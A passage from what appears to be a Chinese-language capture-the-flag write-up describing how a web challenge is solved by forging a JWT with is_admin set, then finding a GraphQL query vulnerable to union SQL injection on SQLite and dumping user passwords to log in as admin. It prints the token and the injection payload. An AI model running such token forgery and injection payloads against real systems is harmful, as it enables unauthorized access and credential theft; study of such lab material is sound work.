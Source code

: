 ```python
token = topic('eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjcxMzcwMzAsImlhdCI6MTY2NzEzNjczMCwiaXNfYWRtaW4iOjAsImlzX2xvZ2luIjoxLCJqdGkiOiJ4YWxlR2dadl9BbDBRd1ZLLUgxb0p3IiwibmJmIjoxNjY3MTM2NzMwLCJwYXNzd29yZCI6IjEyMyIsInVzZXJuYW1lIjoiMTIzIn0.YnE5tK1noCJjultwUN0L1nwT8RnaU0XjYi5iio2EgbY7HtGNkSy_pOsnRl37Y5RJvdfdfWTDCzDdiz2B6Ehb1st5Fa35p2d99wzH4GzqfWfH5zfFer0HkQ3mIPnLi_9zFiZ4mQCOLJO9RBL4lD5zHVTJxEDrESlbaAbVOMqPRBf0Z8mon1PjP8UIBfDd4RDlIl9wthO-NlNaAUp45woswLe9YfRAQxN47qrLPje7qNnHVJczvvxR4-zlW0W7ahmYwODfS-KFp8AC80xgMCnrCbSR0_Iy1nsiCEO8w2y3BEcqvflOOVt_lazJv34M5e28q0czbLXAETSzpvW4lVSr7g')
print(token)
```

这里注册一个 123/123 用户, 然后用网站给的 token 来打

注意 `parsed_payload['is_admin'] = 1` 里面的 1 必须是 int 类型

之后直接把输出复制到 cookie 里, 再访问 /getflag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302201814.png)

提示需要 admin password, 于是点击查看成绩, 发现是 graphql 查询

参考文章

[https://hwlanxiaojun.github.io/2020/04/14/当CTF遇上GraphQL的那些事/](https://hwlanxiaojun.github.io/2020/04/14/当CTF遇上GraphQL的那些事/)

[https://threezh1.com/2020/05/24/GraphQL漏洞笔记及案例/](https://threezh1.com/2020/05/24/GraphQL漏洞笔记及案例/)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302202359.png)

根据输出的意思, 改成 getscoreusingid

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302203567.png)

graphql 其实就是在后端和数据库中间加了一层, 类似的也有 sql 注入

id 处不能直接注入, 限制死了是 int 类型, 猜测可能也有 getscoreusingname

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302205780.png)

改成 getscoreusingnamehahaha

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302205871.png)

union 注入, 试了一圈后发现是 sqlite 数据库, 在 sqlite_master 表中查到表名为 users, 然后猜字段为 password

```json
{ getscoreusingnamehahaha(name: "1' union select group_concat(password) from users --"){ name score } }
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302207139.png)

拿着 admin 的密码去登录, 点击查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210302208316.png)